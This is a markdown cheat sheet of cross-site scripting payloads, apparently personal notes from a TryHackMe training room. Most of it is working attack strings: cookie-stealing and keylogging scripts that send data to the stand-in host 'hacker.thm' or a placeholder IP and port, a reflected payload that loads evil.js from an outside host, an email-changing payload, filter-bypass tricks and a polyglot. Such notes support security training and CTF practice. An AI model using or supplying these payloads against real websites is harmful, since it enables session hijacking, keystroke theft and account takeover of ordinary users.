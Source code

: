 ===============================================================================
# XSS
```
Proof Of Concept:
<script>alert('XSS');</script>

Session Stealing:
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

Key Logger:
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

Business Logic:
This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail():

<script>user.changeEmail('attacker@hacker.thm');</script>


---
Reflected XSS		# use links
supplied data in an HTTP request is included in the webpage source without any validation
https://web.thm/?error=<script src="https://hacker.web/evil.js"></script>
---
Stored XSS		# stores the script on the database of other part like comments

---
What is the DOM?	# DOM stands for Document Object Model and is a programming interface for HTML and XML documents

---
Blind XSS		# We can't have proof of concept like xxs the ticket which only the internal staff see that 
xss hunter express	# is a tool help us with blind xxs


"><script>alert('THM');</script>			# when the input goes to value
</textarea>test						# the textarea could be bypassed
</textarea><script>alert('THM');</script>
';alert('THM');//					# escape the existing JavaScript command and run our command (when we see JavaScript on the source)
<sscriptcript>alert('THM');</sscriptcript>		# bypass filter to prevent filtering the word "script"
/images/cat.jpg" onload="alert('THM');			# we can use onload in the src tag to run our command

# XXS Polyglots, bypass all the filtering
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e



</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>

Let’s break down the payload:

The </textarea> tag closes the text area field.
The <script> tag opens an area for us to write JavaScript.
The fetch() command makes an HTTP request.
URL_OR_IP is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
```